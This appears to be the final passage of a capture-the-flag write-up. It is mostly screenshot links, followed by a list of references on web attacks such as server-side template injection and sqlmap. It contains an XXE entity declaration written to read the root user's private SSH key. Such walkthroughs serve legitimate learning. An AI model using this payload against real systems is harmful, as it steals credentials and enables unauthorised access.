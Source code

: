 <img src="https://i.imgur.com/owYiMSk.png"/>

We can so all is left to grab the ssh key for root user , if it does exists

<img src="https://i.imgur.com/LBV9r9D.png"/>

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa"> ]>
```

<img src="https://i.imgur.com/DTJRyb9.png"/>

<img src="https://i.imgur.com/PktGw1F.png"/>


## References

- https://portswigger.net/web-security/server-side-template-injection
- https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap#eval
- https://chowdera.com/2020/12/20201221231521371q.html
- https://www.fatalerrors.org/a/0dhx1Dk.html
- https://hackmd.io/@Chivato/HyWsJ31dI
